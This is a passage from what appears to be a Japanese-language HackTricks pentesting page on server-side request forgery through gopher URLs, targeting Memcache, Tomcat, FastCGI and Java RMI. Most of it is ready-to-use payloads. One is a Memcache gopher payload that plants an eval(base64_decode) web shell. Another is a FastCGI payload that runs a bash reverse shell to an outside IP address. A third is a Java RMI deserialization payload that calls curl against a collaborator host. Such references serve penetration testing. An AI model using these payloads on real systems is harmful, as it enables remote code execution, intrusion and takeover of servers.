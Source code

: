* [vBulletin Memcache RCE](https://www.exploit-db.com/exploits/37815)
* [GitHub Enterprise Memcache RCE](https://www.exploit-db.com/exploits/42392)
* [MemcacheのためのGopherペイロードの例](https://blog.safebuff.com/2016/07/03/SSRF-Tips/#SSRF-memcache-Getshell)
```bash
gopher://[target ip]:11211/_%0d%0aset ssrftest 1 0 147%0d%0aa:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";s:5:"/.*/e";s:7:"replace";s:33:"eval(base64_decode($_POST[ccc]));";}}s:13:"rewritestatus";i:1;}%0d%0a
gopher://192.168.10.12:11211/_%0d%0adelete ssrftest%0d%0a
```
# Apache Tomcat

**一般にバインドされるポート: 80、443 (SSL)、8080、8443 (SSL)**

Tomcat 6に対して有効:

[gopher-tomcat-deployer](https://github.com/pimps/gopher-tomcat-deployer)

この技術を使用したCTFの解説:

[XXEからRCEへ：Pwn2Win CTF 2018 解説](https://bookgin.tw/2018/12/04/from-xxe-to-rce-pwn2win-ctf-2018-writeup/)

# FastCGI

**一般にバインドされるポート: 80、443 (SSL)**

これは[ここ](https://blog.chaitin.cn/gopher-attack-surfaces/)から取得されました。
```bash
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%10%00%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH97%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Asafe_mode%20%3D%20Off%0Aauto_prepend_file%20%3D%20php%3A//input%0F%13SCRIPT_FILENAME/var/www/html/1.php%0D%01DOCUMENT_ROOT/%01%04%00%01%00%00%00%00%01%05%00%01%00a%07%00%3C%3Fphp%20system%28%27bash%20-i%20%3E%26%20/dev/tcp/172.19.23.228/2333%200%3E%261%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0A%27%29%3B%3F%3E%00%00%00%00%00%00%00
```
# Java RMI

**一般的にバインドされるポート: 1090,1098,1099,1199,4443-4446,8999-9010,9999**

任意のバイト（gopherベース）を許可する盲目のSSRF脆弱性は、Java RMIのデフォルトコンポーネント（RMIレジストリ、分散ガベージコレクタ、アクティベーションシステム）に対してシリアライゼーションまたはコードベース攻撃を実行するために使用できます。詳細な解説は[こちら](https://blog.tneitzel.eu/posts/01-attacking-java-rmi-via-ssrf/)で見つけることができます。以下のリストは、ペイロード生成の例を示しています：
```
$ rmg serial 127.0.0.1 1090 CommonsCollections6 'curl example.burpcollaborator.net' --component reg --ssrf --gopher
[+] Creating ysoserial payload... done.
[+]
[+] Attempting deserialization attack on RMI Registry endpoint...
[+]
[+] 	SSRF Payload: gopher://127.0.0.1:1090/_%4a%52%4d%49%00%02%4c%50%ac%ed%00%05%77%22%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%02%44%15%4d[...]
```
<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
